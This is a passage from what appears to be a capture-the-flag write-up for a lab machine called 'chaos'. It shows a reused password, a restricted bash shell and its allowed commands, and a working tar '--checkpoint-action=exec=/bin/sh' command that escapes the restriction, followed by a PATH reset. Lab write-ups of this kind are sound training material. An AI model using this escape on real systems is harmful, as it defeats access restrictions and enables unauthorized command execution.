 `ayush` uses the same password of `jiujitsu`.&#x20;

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

`ayush` has a restricted shell.&#x20;

```
ayush@chaos:/home$ echo $PATH
/home/ayush/.app
ayush@chaos:/home$ ls -la
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

Using the TAB button, we can find the commands we can run:

```
!                         echo                      printf
./                        elif                      pushd
:                         else                      pwd
[                         enable                    read
[[                        esac                      readarray
]]                        eval                      readonly
{                         exec                      return
}                         exit                      select
alias                     export                    set
bg                        false                     shift
bind                      fc                        shopt
break                     fg                        source
builtin                   fi                        suspend
caller                    for                       tar
case                      function                  test
cd                        getopts                   then
command                   hash                      time
command_not_found_handle  help                      times
compgen                   history                   trap
complete                  if                        true
compopt                   in                        type
continue                  jobs                      typeset
coproc                    kill                      ulimit
declare                   let                       umask
dir                       local                     unalias
dirs                      logout                    unset
disown                    mapfile                   until
do                        ping                      wait
done                      popd                      while
```

I noticed that `ayush` can run `tar`, which allows us to escape the shell using:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
